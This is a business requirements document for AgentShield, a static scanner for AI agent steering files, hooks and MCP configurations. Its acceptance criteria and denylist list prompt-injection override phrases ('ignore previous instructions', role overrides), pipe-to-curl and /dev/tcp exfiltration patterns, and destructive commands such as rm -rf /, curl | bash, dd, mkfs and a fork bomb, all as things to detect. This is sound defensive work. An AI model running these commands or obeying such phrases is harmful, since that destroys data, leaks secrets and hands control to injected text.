


# Business Requirements Document (BRD)

## AgentShield — SA4E-128: Agent Config Security Scanner

---

## Document Information

| Field | Value |
|-------|-------|
| Jira Ticket | SA4E-128 |
| Title | [Security] AgentShield - Agent Config Security Scanner |
| Author | BA Agent |
| Version | 1.0 |
| Date | 2025-07-27 |
| Status | Draft |

---

## Author Tracking

| Role | Name - Position | Responsibility |
|------|-----------------|----------------|
| Author | BA Agent – Business Analyst | Create document |
| Peer Reviewer | TA Agent – Technical Architect | Review document |

---

## Revision History

| Version | Date | Author | Changes |
|---------|------|--------|---------|
| 1.0 | 2025-07-27 | BA Agent | Initiate document — auto-generated from Jira ticket SA4E-128 |

---

## Sign-Off

| Name | Signature and date |
|------|--------------------|
| | ☐ I agree and confirm all criteria on this BRD as expected requirements |
| | ☐ I agree and confirm all criteria on this BRD as expected requirements |

---

## 1. Introduction

### 1.1 Scope

AgentShield is a security scanning tool for AI agent configuration files. The system scans `.kiro/steering/`, `.kiro/hooks/`, and `.kiro/settings/` directories to detect security vulnerabilities including prompt injection vectors, malicious hook commands, overly permissive MCP configurations, and hardcoded secrets. The scanner produces severity-scored findings and integrates with the existing security-agent (Phase 3.7) pipeline.

### 1.2 Out of Scope

- Runtime agent behavior monitoring (only static analysis of config files)
- Scanning application source code (handled by existing security-agent code review)
- Network-level security analysis of MCP connections
- Automatic remediation/fixing of found issues
- Scanning third-party/external agent configurations outside the project workspace

### 1.3 Preliminary Requirement

- Security-agent (Phase 3.7) infrastructure exists and is operational
- `.kiro/` directory structure with steering files, hooks, and settings is established
- MCP server operational at configured endpoint for tool integration
- Node.js/TypeScript runtime available for scanner execution

---

## 2. Business Requirements

### 2.1 High Level Process Map

AgentShield operates as a static security scanner that reads agent configuration files, applies a rule engine against known vulnerability patterns, and produces a severity-scored security report. It can run as a pre-commit hook (automated gate) or on-demand via CLI command.

### 2.2 List of User Stories / Use Cases

| # | Story / Use Case / Epic | Priority | Source Ticket |
|---|-------------------------|----------|---------------|
| 1 | As a developer, I want to scan steering files for prompt injection vectors so that malicious instructions cannot be injected into agent prompts | MUST HAVE | SA4E-128 |
| 2 | As a developer, I want to scan hook configurations for injection risks so that malicious commands cannot be executed via hooks | MUST HAVE | SA4E-128 |
| 3 | As a developer, I want to scan MCP configs for overly permissive permissions so that agent tools have minimal required access | MUST HAVE | SA4E-128 |
| 4 | As a developer, I want to detect hardcoded secrets in agent files so that credentials are not accidentally committed | MUST HAVE | SA4E-128 |
| 5 | As a developer, I want to validate hook commands are safe so that destructive operations (rm -rf, force push) are blocked | MUST HAVE | SA4E-128 |
| 6 | As a security reviewer, I want severity-scored findings so that I can prioritize remediation efforts | MUST HAVE | SA4E-128 |
| 7 | As a developer, I want to run the scanner as pre-commit or on-demand so that security checks fit my workflow | SHOULD HAVE | SA4E-128 |
| 8 | As a CI/CD pipeline operator, I want the scanner to exit with non-zero code on Critical/High findings so that the build fails on security issues | SHOULD HAVE | SA4E-128 |

---

### 2.3 Details of User Stories

---

#### Business Flow

**Step 1:** User triggers scan (pre-commit hook fires OR user runs CLI command `agentshield scan`)

**Step 2:** Scanner discovers target directories (`.kiro/steering/`, `.kiro/hooks/`, `.kiro/settings/`)

**Step 3:** Scanner loads rule engine with registered security rules per file type

**Step 4:** For each file, scanner applies relevant rules:
- Steering files (.md) → prompt injection detection + secret detection
- Hook files (.json, .sh, .kiro.hook) → command injection detection + dangerous command detection + secret detection
- Settings/MCP configs (.json) → permission analysis + secret detection

**Step 5:** Scanner aggregates findings and assigns severity scores (Critical/High/Medium/Low/Info)

**Step 6:** Scanner generates report (JSON + human-readable markdown format)

**Step 7:** Scanner returns exit code (0 = clean, 1 = findings exist, 2 = Critical/High found)

> **Note:** Pre-commit mode blocks commit if Critical or High severity findings exist. On-demand mode always generates full report regardless of severity.

---

#### STORY 1: Scan Steering Files for Prompt Injection Vectors

> As a developer, I want to scan steering files for prompt injection vectors so that malicious instructions cannot be injected into agent prompts.

**Requirement Details:**

1. Scanner reads all `.md` files in `.kiro/steering/` recursively
2. Detects known prompt injection patterns:
   - "Ignore previous instructions" / "Forget your system prompt"
   - Role override attempts ("You are now a...")
   - Instruction boundary bypass (special delimiters, encoding tricks)
   - Hidden instructions in markdown comments/HTML tags
   - Base64/hex-encoded payloads that decode to injection attempts
3. Reports the file path, line number, matched pattern, and severity

**Acceptance Criteria:**

1. GIVEN a steering file containing "ignore previous instructions", WHEN scan runs, THEN a High severity finding is reported with file:line reference
2. GIVEN a steering file with hidden HTML comment containing instructions, WHEN scan runs, THEN a Medium severity finding is reported
3. GIVEN a clean steering file with normal agent instructions, WHEN scan runs, THEN no findings are generated for that file
4. GIVEN a steering file with encoded payload (base64), WHEN scan runs, THEN the scanner decodes and detects the injection attempt

---

#### STORY 2: Scan Hooks for Injection Risks

> As a developer, I want to scan hook configurations for injection risks so that malicious commands cannot be executed via hooks.

**Requirement Details:**

1. Scanner reads all files in `.kiro/hooks/` (JSON, shell scripts, .kiro.hook files)
2. Detects command injection patterns:
   - Shell metacharacter injection in command templates (`${variable}` without quoting)
   - Pipe/redirect chains that could exfiltrate data (`| curl`, `> /dev/tcp/`)
   - Eval/exec patterns with dynamic input
   - Environment variable manipulation
3. Detects use of dangerous commands listed in the denylist

**Acceptance Criteria:**

1. GIVEN a hook with `command: "rm -rf /"`, WHEN scan runs, THEN a Critical severity finding is reported
2. GIVEN a hook with unquoted variable expansion `${file}`, WHEN scan runs, THEN a Medium severity finding is reported for potential injection
3. GIVEN a hook with `command: "npx tsx script.ts --files ${file}"`, WHEN scan runs, THEN an Info finding is reported (known safe pattern with variable)
4. GIVEN a hook with `| curl http://external.com`, WHEN scan runs, THEN a High severity finding is reported for data exfiltration risk

---

#### STORY 3: Scan MCP Configs for Overly Permissive Permissions

> As a developer, I want to scan MCP configs for overly permissive permissions so that agent tools have minimal required access.

**Requirement Details:**

1. Scanner reads `.kiro/settings/mcp.json` and any other MCP configuration files
2. Analyzes `autoApprove` arrays for overly broad permissions:
   - Wildcard approvals (`"*"` or excessive tool lists)
   - Dangerous tools auto-approved without review (shell execution, file deletion)
   - Duplicate entries in autoApprove (code quality signal)
3. Checks for missing security configurations:
   - No authentication configured for HTTP MCP servers
   - `disabled: false` on servers that should be disabled
   - Open localhost ports without auth

**Acceptance Criteria:**

1. GIVEN an MCP config with `autoApprove: ["*"]`, WHEN scan runs, THEN a Critical severity finding is reported
2. GIVEN an MCP config with >20 tools in autoApprove, WHEN scan runs, THEN a Medium severity finding is reported for excessive permissions
3. GIVEN an MCP config with duplicate entries in autoApprove, WHEN scan runs, THEN a Low severity finding is reported
4. GIVEN an MCP config with HTTP (non-HTTPS) URL for non-localhost server, WHEN scan runs, THEN a High severity finding is reported

---

#### STORY 4: Detect Hardcoded Secrets in Agent Files

> As a developer, I want to detect hardcoded secrets in agent files so that credentials are not accidentally committed.

**Requirement Details:**

1. Scanner applies secret detection across ALL scanned files (steering, hooks, settings)
2. Detects patterns for:
   - API keys (OpenAI, Anthropic, AWS, GCP, Azure patterns)
   - JWT tokens (eyJ... pattern)
   - Connection strings with embedded passwords
   - Private keys (BEGIN RSA/EC PRIVATE KEY)
   - Generic high-entropy strings that resemble secrets (>32 chars, mixed case + digits + special)
3. Uses allowlist to exclude known safe patterns (placeholder values, example tokens in documentation)

**Acceptance Criteria:**

1. GIVEN a steering file containing `sk-proj-abcdef123456...`, WHEN scan runs, THEN a Critical severity finding is reported for OpenAI API key
2. GIVEN a settings file with `"password": "hunter2"`, WHEN scan runs, THEN a High severity finding is reported
3. GIVEN a file with `"token": "${ENV_VAR}"`, WHEN scan runs, THEN no finding is reported (environment variable reference is safe)
4. GIVEN a file with placeholder `"key": "YOUR_API_KEY_HERE"`, WHEN scan runs, THEN no finding is reported (known placeholder)

---

#### STORY 5: Validate Hook Commands Are Safe

> As a developer, I want to validate hook commands are safe so that destructive operations are blocked.

**Requirement Details:**

1. Scanner maintains a denylist of dangerous commands/patterns:
   - `rm -rf` (recursive force delete)
   - `git push --force` / `git push -f` (force push)
   - `git clean -f` (force clean)
   - `git reset --hard` (hard reset)
   - `chmod 777` (world-writable permissions)
   - `curl | sh` / `wget | bash` (remote code execution)
   - `eval`, `exec` with dynamic arguments
   - `dd if=` (disk operations)
   - `mkfs`, `fdisk` (filesystem operations)
   - `:(){ :|:& };:` (fork bomb patterns)
2. Allows configuration of custom denylist/allowlist per project
3. Distinguishes between absolute blocks (Critical) and warnings (Medium) based on context

**Acceptance Criteria:**

1. GIVEN a hook with `rm -rf /`, WHEN scan runs, THEN a Critical finding "Destructive command: recursive force delete" is reported
2. GIVEN a hook with `git push --force`, WHEN scan runs, THEN a High finding "Dangerous git operation: force push" is reported
3. GIVEN a hook with `curl https://example.com | bash`, WHEN scan runs, THEN a Critical finding "Remote code execution: piped download to shell" is reported
4. GIVEN a hook with `rm -rf node_modules/` (scoped delete), WHEN scan runs, THEN a Medium finding with context "Scoped delete — verify intent" is reported
5. GIVEN a custom allowlist entry for `git push --force-with-lease`, WHEN scan runs, THEN no finding is reported for that specific command

---

#### STORY 6: Severity-Scored Report

> As a security reviewer, I want severity-scored findings so that I can prioritize remediation efforts.

**Requirement Details:**

1. Each finding includes:
   - Unique ID (e.g., `AS-001`)
   - Severity: Critical / High / Medium / Low / Info
   - Category: PromptInjection / CommandInjection / OverPermission / HardcodedSecret / DangerousCommand
   - File path and line number
   - Description of the issue
   - Evidence (matched pattern or code snippet)
   - Remediation suggestion
2. Report available in two formats:
   - JSON (machine-readable, for CI/CD integration)
   - Markdown (human-readable, for review in documents/)
3. Summary section with counts per severity and per category

**Data Fields:**

| Field | Type | Required | Description | Example |
|-------|------|----------|-------------|---------|
| id | string | Yes | Unique finding identifier | `AS-001` |
| severity | enum | Yes | Critical/High/Medium/Low/Info | `High` |
| category | enum | Yes | Finding category | `PromptInjection` |
| file | string | Yes | Relative file path | `.kiro/steering/sm-core.md` |
| line | number | No | Line number (if applicable) | `42` |
| rule | string | Yes | Rule ID that triggered | `PI-001` |
| description | string | Yes | Human-readable issue description | `Prompt injection pattern detected` |
| evidence | string | Yes | Matched text/pattern | `"ignore previous instructions"` |
| remediation | string | Yes | How to fix | `Remove or rephrase the instruction` |

**Acceptance Criteria:**

1. GIVEN a scan with 3 findings, WHEN report is generated, THEN JSON output contains array of 3 finding objects with all required fields
2. GIVEN a scan with mixed severities, WHEN report is generated, THEN summary shows correct counts per severity level
3. GIVEN a scan with no findings, WHEN report is generated, THEN report shows "Clean — no security issues found" with exit code 0

---

#### STORY 7: Pre-Commit and On-Demand Execution

> As a developer, I want to run the scanner as pre-commit or on-demand so that security checks fit my workflow.

**Requirement Details:**

1. **Pre-commit mode:**
   - Integrates as a git pre-commit hook
   - Only scans files staged for commit (performance optimization)
   - Blocks commit if Critical or High findings exist
   - Shows brief summary in terminal
2. **On-demand mode:**
   - CLI command: `npx agentshield scan [--path <dir>] [--format json|md] [--severity-threshold <level>]`
   - Scans entire configured directories by default
   - Generates full report
   - Configurable severity threshold for exit code

**Acceptance Criteria:**

1. GIVEN pre-commit hook installed, WHEN developer stages a steering file with injection pattern and commits, THEN commit is blocked with error message showing the finding
2. GIVEN on-demand mode, WHEN `npx agentshield scan` is run, THEN full scan of .kiro/ directories produces report
3. GIVEN `--severity-threshold medium`, WHEN scan finds only Low findings, THEN exit code is 0 (pass)
4. GIVEN `--format json`, WHEN scan runs, THEN output is valid JSON parseable by CI tools

---

#### STORY 8: CI/CD Integration

> As a CI/CD pipeline operator, I want the scanner to exit with non-zero code on Critical/High findings so that the build fails on security issues.

**Requirement Details:**

1. Exit codes:
   - `0` = No findings above threshold
   - `1` = Findings exist but below threshold
   - `2` = Critical or High findings exist (configurable)
2. Machine-readable JSON output for pipeline parsing
3. SARIF format support for GitHub Security tab integration (optional future)

**Acceptance Criteria:**

1. GIVEN CI pipeline runs agentshield scan, WHEN Critical finding exists, THEN process exits with code 2
2. GIVEN CI pipeline with `--severity-threshold high`, WHEN only Medium findings exist, THEN process exits with code 0
3. GIVEN JSON output mode, WHEN piped to jq, THEN findings can be extracted and processed

---

## 3. Dependencies

| Dependency | Type | Related Ticket | Description |
|------------|------|----------------|-------------|
| Security Agent (Phase 3.7) | System | SA4E-128 | AgentShield integrates with security-agent for design review workflow |
| .kiro/ directory structure | Infrastructure | N/A | Scanner targets existing .kiro/steering/, .kiro/hooks/, .kiro/settings/ |
| Node.js / TypeScript runtime | Infrastructure | N/A | Scanner implemented in TypeScript, runs via npx |
| Git hooks infrastructure | System | N/A | Pre-commit hook integration requires git hooks support |
| MCP server | System | N/A | Scanner may be exposed as MCP tool for agent-driven security scans |

---

## 4. Stakeholders

| Role | Name / Team | Responsibility | Source |
|------|-------------|----------------|--------|
| Developer | Development Team | Primary user — runs scanner during development | Ticket description |
| Security Reviewer | Security Agent / Security Team | Consumes findings, prioritizes remediation | Phase 3.7 integration |
| DevOps | DevOps Team | Integrates scanner into CI/CD pipeline | Pipeline setup |
| Project Lead | Technical Lead | Approves denylist/allowlist configurations | Governance |

---

## 5. Risks and Assumptions

### 5.1 Risks

| Risk | Impact | Likelihood | Mitigation |
|------|--------|------------|------------|
| False positives reduce developer trust | Medium | High | Implement allowlist mechanism and context-aware analysis |
| Performance impact on pre-commit | Medium | Medium | Only scan staged files in pre-commit mode; full scan on-demand |
| Patterns evolve faster than rules | High | Medium | Extensible rule engine with easy rule addition; community rule packs |
| Encoded/obfuscated injections bypass detection | High | Low | Multi-layer detection (decode base64/hex before pattern matching) |
| Scanner itself becomes attack vector | High | Low | Validate scanner config files; no dynamic code execution from scanned content |

### 5.2 Assumptions

- Agent configuration files are stored in `.kiro/` directory following established conventions
- Developers have Node.js/TypeScript runtime available in development environment
- Git hooks (pre-commit) infrastructure is supported by the development workflow
- The security-agent Phase 3.7 pipeline is operational for integration
- Severity scoring follows CVSS-aligned classification used by existing security-agent

---

## 6. Non-Functional Requirements

| Category | Requirement | Details |
|----------|-------------|---------|
| Performance | Scan completes within 5 seconds | For typical project with <100 agent config files |
| Performance | Pre-commit staged-only scan < 2 seconds | Only scans files in git staging area |
| Scalability | Handle projects with up to 500 config files | Linear scan with no exponential complexity |
| Security | Scanner does not execute scanned content | Static analysis only — no eval/exec of found patterns |
| Security | Scanner config (rules, allowlists) integrity | Config files validated before use |
| Reliability | Zero false negatives for known denylist patterns | Exact string matching for denylist commands |
| Extensibility | Custom rules addable without code changes | Rule definition via JSON/YAML config files |
| Usability | Clear finding messages with remediation guidance | Every finding includes actionable fix suggestion |
| Compatibility | Works on Windows, macOS, Linux | Cross-platform Node.js implementation |
| Maintainability | Rule database versioned and updatable | Semantic versioning for rule packs |

---

## 7. Related Tickets

| Ticket Key | Summary | Status | Type | Relationship |
|------------|---------|--------|------|--------------|
| SA4E-128 | [Security] AgentShield - Agent Config Security Scanner | To Do | Story | Main ticket |
| SA4E-55 | Security: Fix authentication/authorization vulnerabilities | Done | Story | relates to (security patterns) |
| SA4E-73 | WP5: Security + Admin Rules | Done | Story | relates to (security rules reference) |
| SA4E-62 | WP5: Security Hardening | Done | Story | relates to (security hardening patterns) |

---

## 8. Appendix

### Use Case Diagram

### Glossary

| Term | Definition |
|------|------------|
| Steering File | A markdown file in `.kiro/steering/` that provides behavioral instructions to an AI agent |
| Hook | An automation trigger (JSON/shell/kiro.hook) in `.kiro/hooks/` that executes commands on specific events |
| MCP Config | JSON configuration in `.kiro/settings/` that defines Model Context Protocol server connections and tool permissions |
| Prompt Injection | An attack technique where malicious instructions are embedded in text to override an AI agent's intended behavior |
| AgentShield | The security scanner tool that this BRD specifies; scans agent configurations for security vulnerabilities |
| Finding | A single security issue detected by the scanner, scored by severity and categorized by type |
| Denylist | A list of explicitly forbidden commands/patterns that the scanner flags as security violations |
| autoApprove | An MCP config field that lists tools allowed to execute without user confirmation — security-sensitive |

### Reference Documents

| Document | Link / Location |
|----------|-----------------|
| Security Agent Definition | `.kiro/agents/security-agent.md` |
| Hook Configuration Examples | `.kiro/hooks/*.json` |
| MCP Settings | `.kiro/settings/mcp.json` |
| Loop Constraints (Path Denylist) | `.kiro/steering/loop-constraints.md` |
| OWASP Testing Guide v4.2 | https://owasp.org/www-project-web-security-testing-guide/ |

### Diagram Index

| # | Diagram | Image | Source (editable) |
|---|---------|-------|-------------------|
| 1 | Business Flow | [business-flow.png](diagrams/business-flow.png) | [business-flow.drawio](diagrams/business-flow.drawio) |
| 2 | Use Case Diagram | [use-case.png](diagrams/use-case.png) | [use-case.drawio](diagrams/use-case.drawio) |
